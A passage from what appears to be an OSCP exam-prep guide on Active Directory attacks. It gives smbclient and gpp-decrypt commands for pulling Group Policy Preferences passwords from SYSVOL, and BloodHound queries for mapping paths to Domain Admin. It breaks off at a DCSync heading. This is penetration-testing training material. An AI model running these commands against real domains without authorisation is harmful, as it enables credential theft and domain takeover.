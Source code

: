#### How it works:
```bash
# 1. Access SYSVOL share
smbclient //$TARGET/SYSVOL -U $DOMAIN\\$USER%$PASS

# 2. Download everything (or search for XML files)
recurse on
prompt off  
mget *

# 3. Search for cpassword entries
grep -r "cpassword" . 

# 4. Decrypt any found passwords
gpp-decrypt <encrypted_password>

# 5. Why does this work?
# Microsoft published the encryption key for GPP passwords in 2012
# Anyone can decrypt these passwords
# These passwords are often for privileged accounts
```

### 4. BloodHound Analysis

#### What is it?
BloodHound visualizes **attack paths** in Active Directory by mapping relationships between users, groups, and computers.

#### When to use it?
- **As soon as you have any domain credentials**
- Before attempting manual privilege escalation
- To identify the shortest path to Domain Admin

#### Key Queries for OSCP:
```bash
# After importing data, run these queries:
1. "Shortest Paths to Domain Admins"  # Your main goal
2. "Find Computers where Domain Users can RDP"  # Lateral movement
3. "Users with Local Admin Rights"  # Credential harvesting targets
4. "Kerberoastable Users"  # Service accounts to target

# Custom query for finding easy wins:
MATCH p=shortestPath((u:User)-[*1..]->(g:Group {name: "DOMAIN ADMINS@DOMAIN.LOCAL"})) RETURN p
```

#### What to look for:
- **Green lines** = paths you can exploit
- **Red nodes** = high-value targets (Domain Admins)
- **Computer nodes** = potential lateral movement targets

### 5. DCSync Attack
